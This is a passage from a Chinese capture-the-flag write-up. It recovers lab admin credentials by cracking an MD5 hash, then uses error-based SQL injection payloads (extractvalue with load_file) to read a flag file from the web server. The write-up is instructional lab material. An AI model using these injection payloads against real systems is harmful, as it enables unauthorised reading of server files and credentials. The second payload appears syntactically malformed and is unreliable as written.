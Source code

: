   ![ctf-20180416222026878](/images/posts/ctf/ctf-20180416222026878.png)

  得到`2e503090facfc4337207f|545`

  与上一步拼接起来即为：`username|password|email`：`ichuqiu|318a61264482e503090facfc4337207f|545`

把密文丢到在线MD5解密得密码：

![ctf-20180416222248848](/images/posts/ctf/ctf-20180416222248848.png)

终于获得：

`username`：`ichuqiu`

`password`：`Myxss623`

输入用户名密码，登陆后台，查看file：

![ctf-20180416222615677](/images/posts/ctf/ctf-20180416222615677.png)

还是得通过**SQL注入**`load_file`来获取flag

```bash
' and extractvalue(1,concat(0x5c,(select load_file('/var/www/html/f13g_ls_here.txt'))))#
```

![ctf-20180416223715718](/images/posts/ctf/ctf-20180416223715718.png)

获取到flag的前半部分，同查询密码的步骤，获取flag的后半部分：

```bash
' and extractvalue(1,concat(0x5c,mid(select load_file('/var/www/html/f13g_ls_here.txt'), 20, 52)))#
```

![ctf-20180416224034161](/images/posts/ctf/ctf-20180416224034161.png)

**拼接得到完整flag**：`flag{8a69155e-c420-4c21-917a-313d5ec65b0a}`

至此，得到flag。

## 总结

这次题目难度适中，主要在于三个关键点。

第一个属于破题点，其在于利用参数key错误获取出错信息，来找到使用框架的漏洞；第二个比较关键的点是考察代码审计的功底；第三个就是SQL注入的熟练度。

如果对任何一个方面不熟悉的话，还是需要花费些许精力的，熟能生巧，加油！
